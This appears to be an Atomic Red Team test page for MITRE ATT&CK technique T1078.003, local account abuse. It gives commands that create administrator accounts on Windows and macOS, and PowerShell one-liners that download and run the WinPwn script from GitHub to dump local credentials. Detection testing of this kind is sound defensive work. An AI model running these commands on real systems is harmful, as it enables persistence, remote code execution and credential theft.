 # T1078.003 - Local Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/003)
<blockquote>Adversaries may obtain and abuse credentials of a local account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service.

Local Accounts may also be abused to elevate privileges and harvest credentials through [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). Password reuse may allow the abuse of local accounts across a set of machines on a network for the purposes of Privilege Escalation and Lateral Movement. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create local account with admin privileges](#atomic-test-1---create-local-account-with-admin-privileges)

- [Atomic Test #2 - Create local account with admin privileges - MacOS](#atomic-test-2---create-local-account-with-admin-privileges---macos)

- [Atomic Test #3 - WinPwn - Loot local Credentials - powerhell kittie](#atomic-test-3---winpwn---loot-local-credentials---powerhell-kittie)

- [Atomic Test #4 - WinPwn - Loot local Credentials - Safetykatz](#atomic-test-4---winpwn---loot-local-credentials---safetykatz)


<br/>

## Atomic Test #1 - Create local account with admin privileges
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** Windows


**auto_generated_guid:** a524ce99-86de-4db6-b4f9-e08f35a47a15






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user art-test /add
net user art-test Password123!
net localgroup administrators art-test /add
```

#### Cleanup Commands:
```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Create local account with admin privileges - MacOS
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** macOS


**auto_generated_guid:** f1275566-1c26-4b66-83e3-7f9f7f964daa






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/AtomicUser
dscl . -create /Users/AtomicUser UserShell /bin/bash
dscl . -create /Users/AtomicUser RealName "Atomic User"
dscl . -create /Users/AtomicUser UniqueID 503
dscl . -create /Users/AtomicUser PrimaryGroupID 503
dscl . -create /Users/AtomicUser NFSHomeDirectory /Local/Users/AtomicUser
dscl . -passwd /Users/AtomicUser mySecretPassword
dscl . -append /Groups/admin GroupMembership AtomicUser
```

#### Cleanup Commands:
```bash
sudo dscl . -delete /Users/AtomicUser
```





<br/>
<br/>

## Atomic Test #3 - WinPwn - Loot local Credentials - powerhell kittie
Loot local Credentials - powerhell kittie technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 9e9fd066-453d-442f-88c1-ad7911d32912






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
obfuskittiedump -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Loot local Credentials - Safetykatz
Loot local Credentials - Safetykatz technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e9fdb899-a980-4ba4-934b-486ad22e22f4






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
safedump -consoleoutput -noninteractive
```






<br/>
